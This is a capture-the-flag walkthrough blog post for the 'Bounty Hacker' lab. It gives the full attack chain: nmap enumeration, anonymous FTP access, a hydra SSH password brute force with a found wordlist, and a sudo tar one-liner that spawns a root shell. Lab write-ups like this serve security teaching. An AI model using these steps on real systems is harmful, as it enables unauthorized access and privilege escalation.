 ```yaml
---
layout: post
permalink: /posts/thm/bounty-hacker
title: "Bounty Hacker"
---
```


You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker! <br/>

Okay, let's start our enumeration with nmap scan

```
nmap -sC -sV <IP>
```

![nmap](/assets/images/thm/bounty-hacker/nmap.png)

Good! From the nmap scan we can see there are open ports 21 FTP, 22 SSH and 80 HTTP. Now we need to find a task list which will probably be located on the FTP server. You can notice from the nmap result that anonymous login is allowed. Go and visit the FTP server.

```
ftp <IP>
```

with username anonymous

![ftp](/assets/images/thm/bounty-hacker/ftp.png)

We can download the files with the following command

```
get <FILE_NAME>
```

From the `task.txt` we have found a name which is probably a user and `locks.txt` looks like password wordlist. Let's try to bruteforce ssh using hydra.

```
hydra -l lin -P locks.txt 10.10.126.63 ssh
```

![hydra](/assets/images/thm/bounty-hacker/hydra.png)

Yep, as we though that was a wordlist. Now SSH to the machine.

```
ssh lin@<IP>
```

![shell](/assets/images/thm/bounty-hacker/shell.png)

Here is the first flag. Now we need to find way to escalate our privileges. The first thing that I awlays check is whether the current user has any permissions to execute sudo commands.

```
sudo -l
```

![sudo-l](/assets/images/thm/bounty-hacker/sudo-l.png)

We are in luck. Lin user has the right to execute `/bin/tar` as sudo. Go and visit our favourite site `https://gtfobins.github.io/gtfobins/tar/`

![gtfobins](/assets/images/thm/bounty-hacker/gtfobins.png)

Yes, it is as simple as that, just copy the command and execute it and you will have root acces.

```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

![root](/assets/images/thm/bounty-hacker/root.png)

Here we go, we are root. Find the root flag and you'll prove that you are an elite hacker.
